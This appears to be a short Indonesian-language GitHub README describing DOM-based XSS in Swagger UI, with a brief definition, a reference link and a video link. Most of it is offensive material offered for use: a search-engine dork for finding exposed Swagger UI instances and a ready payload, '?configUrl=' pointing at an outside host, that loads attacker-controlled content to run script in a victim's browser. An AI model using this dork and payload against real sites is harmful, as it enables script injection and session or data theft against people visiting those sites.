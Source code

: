 # 🚀 DOM-based XSS pada Swagger UI

Singkatnya DOM-Based XSS adalah jenis serangan XSS di mana eksekusi skrip berbahaya terjadi di sisi klien (browser) melalui manipulasi DOM, tanpa respons langsung dari server. Serangan ini biasanya terjadi ketika JavaScript mengambil input dari URL atau elemen DOM lain tanpa validasi, memungkinkan penyerang menyisipkan dan menjalankan kode berbahaya di halaman web korban.


# ⚡ Refrensi
https://github.com/seanmarpo/webjars-swagger-xss


# 🔎 Dork

```
intitle:"Swagger UI" site:.
```


# 👨‍💻 Payload

```
?configUrl=https://xss.smarpo.com/test.json
```


# 🎥 Video
[![Watch on YouTube](https://img.youtube.com/vi/dP2SHlghC0E/0.jpg)](https://youtu.be/dP2SHlghC0E)


Semoga mudah di pahami
